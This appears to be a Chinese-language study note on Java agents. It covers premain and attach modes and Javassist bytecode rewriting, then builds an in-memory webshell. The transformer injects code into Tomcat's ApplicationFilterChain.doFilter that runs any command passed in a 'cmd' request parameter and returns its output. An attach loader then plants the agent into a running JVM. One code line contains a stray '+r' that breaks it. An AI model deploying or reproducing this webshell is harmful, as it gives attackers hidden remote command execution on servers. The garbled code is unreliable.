



# Javaagent

Java Agent 直译过来叫做 Java 代理，还有另一种称呼叫做 Java 探针。首先说 Java Agent 是一个 jar 包，只不过这个 jar 包不能独立运行，它需要依附到我们的目标 JVM 进程中。

Agent 是在 Java 虚拟机启动之时加载的，这个加载处于虚拟机初始化的早期，在这个时间点上:

1. 所有的 Java 类都未被初始化；
2. 所有的对象实例都未被创建；
3. 因而，没有任何 Java 代码被执行；

Javaagent有两种模式:

`premain`（Agent模式）和`agentmain`（Attach模式);作为了Agent程序的入口，两者所接受的参数是完全一致的，如下：

```java
public static void premain(String args, Instrumentation inst) {}
public static void agentmain(String args, Instrumentation inst) {}
```

premain,顾名思义,会在它加强的对象的main方法前执行。

Java Agent还限制了我们必须以jar包的形式运行或加载，我们必须将编写好的Agent程序打包成一个jar文件。除此之外，Java Agent还强制要求了所有的jar文件中必须包含`/META-INF/MANIFEST.MF`文件，且该文件中必须定义好`Premain-Class`（Agent模式）或`Agent-Class:`（Attach模式）配置

如果我们需要修改已经被JVM加载过的类的字节码，那么还需要设置在`MANIFEST.MF`中添加`Can-Retransform-Classes: true`或`Can-Redefine-Classes: true`。

这里有几个Instruentation类,其中的几个关键方法

```java
public interface Instrumentation {     
// 增加一个 Class 文件的转换器，转换器用于改变 Class 二进制流的数据，参数 canRetransform 设置是否允许重新转换。在类加载之前，重新定义 Class 文件，ClassDefinition 表示对一个类新的定义，如果在类加载之后，需要使用 retransformClasses 方法重新定义。addTransformer方法配置之后，后续的类加载都会被Transformer拦截。对于已经加载过的类，可以执行retransformClasses来重新触发这个Transformer的拦截。类加载的字节码被修改后，除非再次被retransform，否则不会恢复。    
void addTransformer(ClassFileTransformer transformer);     

// 删除一个类转换器    
boolean removeTransformer(ClassFileTransformer transformer);    

// 在类加载之后，重新定义 Class。这个很重要，该方法是1.6 之后加入的，事实上，该方法是 update 了一个类。    
void retransformClasses(Class<?>... classes) throws UnmodifiableClassException;     

// 判断目标类是否能够修改。    
boolean isModifiableClass(Class<?> theClass);     

// 获取目标已经加载的类。    
@SuppressWarnings("rawtypes")    
Class[] getAllLoadedClasses();     ...... 
```

创建一个agent类

```java
public class MyCustomAgent {
    /**
     * jvm 参数形式启动，运行此方法
     * @param agentArgs
     * @param inst
     */
    public static void premain(String agentArgs, Instrumentation inst){
        System.out.println("premain");
        customLogic(inst);
    }
    /**
     * 动态 attach 方式启动，运行此方法
     * @param agentArgs
     * @param inst
     */
    public static void agentmain(String agentArgs, Instrumentation inst){
        System.out.println("agentmain");
        customLogic(inst);
    }
    /**
     * 打印所有已加载的类名称
     * 修改字节码
     * @param inst
     */
    private static void customLogic(Instrumentation inst){
        inst.addTransformer(new MyTransformer(), true);
        Class[] classes = inst.getAllLoadedClasses();
        for(Class cls :classes){
            System.out.println(cls.getName());
        }
    }
}
```

创建一个被代理类:

```	JAVA

public class MyTransformer implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        System.out.println("Loading Class :"+ className);
        if (!"Test".equals(className)){
            return classfileBuffer;
        }
        CtClass cl = null;
        try {
            ClassPool classPool = ClassPool.getDefault();
            cl = classPool.makeClass(new ByteArrayInputStream(classfileBuffer));
            CtMethod ctMethod = cl.getDeclaredMethod("test");
            System.out.println("Get Method Name :"+ ctMethod.getName());

            ctMethod.insertBefore("System.out.println(\"before the method \");");
            ctMethod.insertAfter("System.out.println(\"after the method \");");

            byte[] transformed = cl.toBytecode();
            return transformed;
        }catch (Exception e){
            e.printStackTrace();
        }
        return classfileBuffer;
    }
}
```

pom.xml中指定MANIFEST.MF的路径

```
<build>    
<plugins>        
<plugin>            
<groupId>org.apache.maven.plugins</groupId>            
<artifactId>maven-assembly-plugin</artifactId>           
<configuration>               
<archive>                    
<manifestFile>src/main/resources/META-INF/MANIFEST.MF</manifestFile>               
</archive>                
<descriptorRefs>                    
<descriptorRef>jar-with-dependencies</descriptorRef>               
</descriptorRefs>            
</configuration>       
</plugin>    
</plugins>
</build>
```

```
mvn assembly:assembly
```

将我们的MyCustomAgent、MyTransformer还有MANIFEST.MF打包成一个jar文件。

然后创建一个App类调用test方法




```
java -javaagent:target/javaagent.jar -classpath target/test-classes/ App
```

即可在执行test方法前执行我们的代码


不过在真实环境中我们需要代理的程序往往都已经启动了,这时候我们的Agant模式就不行了,这时候就需要用到我们的Attach模式。Attach模式需要知道我们运行的Java程序进程ID，通过Java虚拟机的进程注入方式实现可以将我们的Agent程序动态的注入到一个已在运行中的Java程序中。

代理类:

```java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```

```JAVA
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore(
                    	"javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +r
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```

打包成jar,我们的代理类就处理完成了,这里我们选择对"org.apache.catalina.core.ApplicationFilterChain"进行一个增强,因为在我们的请求时,会调用Filter进行判断,而且该类的doFilter方法传入了request和response,如果我们对其进行重写,那么我们就可以通过request获取我们想要的命令,还可以搞一些回显之类的。




agent编写完成了,接下来就是如何进行一个注入,可以使用jps -l命令查看当前的进程id和对应的类



这里有两个关键的类:

#### VirtualMachine

VirtualMachine 可以来实现获取系统信息，内存dump、现成dump、类信息统计（例如JVM加载的类）。里面配备有几个方法LoadAgent，Attach 和 Detach 。下面来看看这几个方法的作用

**Attach** ：该类允许我们通过给attach方法传入一个jvm的pid(进程id)，远程连接到jvm上

```java
VirtualMachine vm = VirtualMachine.attach(v.id());
```

**loadAgent**：向jvm注册一个代理程序agent，在该agent的代理程序中会得到一个Instrumentation实例，该实例可以 在class加载前改变class的字节码，也可以在class加载后重新加载。在调用Instrumentation实例的方法时，这些方法会使用ClassFileTransformer接口中提供的方法进行处理。

**Detach**：从 JVM 上面解除一个代理(agent)

#### VirtualMachineDescriptor

VirtualMachineDescriptor 是一个描述虚拟机的容器类，配合 VirtualMachine 类完成各种功能。

```java
import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.util.List;

public class AgentMainDemo {
    public static void main(String[] args) throws Exception{
        String path = "AgentMain.jar的路径";
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor v:list){
            System.out.println(v.displayName());
            if (v.displayName().contains("进程名称")){
                // 将 jvm 虚拟机的 pid 号传入 attach 来进行远程连接
                VirtualMachine vm = VirtualMachine.attach(v.id());
                // 将我们的 agent.jar 发送给虚拟机 
                vm.loadAgent(path);
                vm.detach();
            }
        }
    }
```

这里我们用到了tools.jar,默认情况下JVM是不会加载tools.jar的,我们可以利用 URLClassloader 来加载我们的 tools.jar

```java
public class TestAgentMain {

    public static void main(String[] args) {
        try{
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            System.out.println(toolsPath.toURI().toURL());
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List<Object> list = (java.util.List<Object>) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM Start..");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);
                if (name.contains("进程名称")){
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    java.lang.String path = "AgentMain.jar的路径";
                    loadAgent.invoke(vm,new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```


Attach模式自己搞的jar包感觉老是出问题,自己也搞了几天找不出来原因,先放着吧。自己测试的时候用的是:https://github.com/KpLi0rn/AgentMemShell 


# 参考链接:

https://www.anquanke.com/post/id/239200

http://wjlshare.com/archives/1582

关于javaagent:

http://antsnote.club/2019/05/27/Java-JavaAgent%E6%8A%80%E6%9C%AF%E7%9A%84%E5%9F%BA%E7%A1%80%E4%BD%BF%E7%94%A8/

